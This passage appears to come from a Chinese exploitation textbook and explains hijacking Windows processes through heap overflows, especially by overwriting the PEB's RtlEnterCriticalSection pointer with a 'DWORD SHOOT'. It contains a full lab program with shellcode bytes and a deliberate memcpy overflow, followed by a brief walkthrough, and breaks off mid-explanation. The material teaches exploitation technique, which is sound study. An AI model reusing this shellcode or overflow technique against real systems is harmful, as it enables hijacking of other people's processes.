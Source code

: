 （5）函数指针：系统有时会使用一些函数指针，比如调用动态链接库中的函数、C++中的虚函数调用等。改写这些函数指针后，在函数调用发生后往往可以成功地劫持进程。但可惜的是，不是每一个漏洞都可以使用这项技术，这取决于软件的开发方式。

（6）P.E.B中线程同步函数的入口地址：天才的黑客们发现在每个进程的P.E.B中都存放着―对同步函数指针，指向RtlEnterCriticalSection()和RtILeaveCriticalSection()，并且在进程退出时会被ExitProcess()调用。如果能够通过DWORD SHOOT修改这对指针中的其中一个，那么在程序退出时ExitProcess()将会被骗去调用我们的shellcode。由于P.E.B的位置始终不会变化，这对指针在P.E.B中的偏移也始终不变，这使得利用堆溢出开发适用于不同操作系统版本和补丁版本的exploit成为可能。这种方法一经提出就立刻成为了Windows平台下堆溢出利用的最经典方法之一，因为静止的靶子比活动的靶子好打得多，我们只需要把枪架好，闭着眼睛扣扳机就是了。

### 狙击P.E.B中RtlEnterCritical-Section()的函数指针

我们可以观察一下实验代码给的意图

```c
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
//repaire the pointer which shooted by heap over run
"\xB8\x20\xF0\xFD\x7F"  //MOV EAX,7FFDF020
"\xBB\x60\x20\xF8\x77"  //MOV EBX,77F82060 此处地址需调试得出
"\x89\x18"                //MOV DWORD PTR DS:[EAX],EBX
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"       
"\x30\x60\x40\x00\x20\xf0\xfd\x7f";//前四字节即为前向指针，指向Shellcode地址，此地址需调试得出；后四字节为后向指针，在此操作系统中固定不变

main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0,0x1000,0x10000);
    h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
    //__asm int 3 //中断进程
    memcpy(h1,shellcode,0x200); //overflow,0x200=512
    h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
    return 0;
}
```

1、h1向堆中申请了200字节的空间

2、memcpy的上限错误的写成了0x200，这实际上时512字节，所以会溢出

3、h1后面的尾块会被超过200字节的数据覆盖，包括尾块块首
